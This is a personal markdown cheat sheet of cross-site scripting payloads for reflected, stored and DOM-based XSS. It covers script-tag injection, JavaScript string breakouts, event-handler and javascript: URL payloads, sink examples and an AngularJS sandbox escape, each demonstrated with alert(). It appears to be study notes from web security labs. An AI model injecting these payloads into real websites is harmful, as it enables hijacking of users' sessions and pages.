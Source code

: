 # **<a name="webapp">Web Application table of Contents</a>**
* [XSS](#xss)



# **<a name="xss">XSS</a>**

## Reflected 
`GET /?search=<script>alert(1)</script> HTTP/1.1`

### escape script and backslash

`</script><img src=1 onerror=alert(document.domain)>`

`</script><script>alert(1)</script>`

### Brak out of javascript string

`'-alert(document.domain)-'`

`'+alert(document.domain)+'`

`';alert(document.domain)//`

`http://foo?&apos;-alert(1)-&apos;`

`${alert(document.domain)}`

`javascript:"/*'/*'/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>`


## Stored

Enter the following into the comment box

`<script>alert(1)</script>`

`"onmouseover="alert(1)`

Inserted in GET/POST request

`<a id="author" href="javascript:alert(document.domain)">test</a>`

## DOM XSS

If you search 5333 in search bar

in javascript function calls 

                        function trackSearch(query) 
                        {document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');}
                        var query = (new URLSearchParams(window.location.search)).get('search');
                        if(query){trackSearch(query);}
                    
                        <img src="/resources/images/tracker.gif?searchTerms=5333">
                        
                        
search for 

` "><svg onload=alert(1)>`

this will break out new paramiter in javascript

 Document sink
 
 `name=<img+src+onerror=alert(1)>`
 
 Location sink
 
 `redir=javascript:alert(1)`
 
 `&storeId="></select><img+src%3d1+onerror%3dalert(1)>`
 
  Execution sink eval call error
  
  `index=alert(1)`
  
  angular js sink
  
  `{{$on.constructor('alert(1)')()}}`
 
 

